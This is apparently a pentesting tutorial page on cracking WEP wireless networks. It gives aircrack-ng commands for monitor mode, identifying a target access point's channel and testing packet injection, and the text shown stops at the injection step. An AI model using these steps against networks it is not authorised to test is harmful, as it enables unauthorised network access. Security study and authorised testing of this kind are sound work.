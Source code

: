 ## Cracking WEP

## Perform the following steps prior to step 1, if you're wireless card is giving you issues.

* When putting a card into monitor mode, it will automatically check for interfering processes. It can also be done manually by running the following command:
````
airmon-ng check
````

* Kill interferring processes
````
airmon-ng check kill
````

* Kill the network manager(s) before putting card into monitor mode
````
airmon-ng check kill PID
````

* If started already...disable Monitor Mode
````
airmon-ng stop wlan0mon
````

* Restart Network Manager(s)
````
service network-manager start
````

**1) List All Available Wireless Interace Cards**

* You can do this with two commands: iwconfig or airmon-ng

![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/list_interfaces.png)

**2) Enable monitor mode on the interace found in step 1**

* Done retro-actively, must identify the channel of the target AP first
````
sudo airodump-ng wlan0mon
sudo airmon-ng start wlan0 3
````

![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/monitor_mode_channel.png)

**3) Identify the channel your WEP network is operating on**

* execute iwconfig or airmon-ng to get your wireless interface
* use either BSSID or ESSID.
* The channel number will be listed under the "CH" column.
````
airodump-ng wlan0mon
````
![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/identify_channel.png)

* Take not of the the MAC, channel and network name of the target AP.
* Test wireless device packet injection.
* If you receive "Injection is working! proceed, else, ensure you're using a compatible wireless card.

**4) Packet Injection**
````
aireplay-ng -c 3 -9 -e <network name> -a <target MAC> <interface>
````

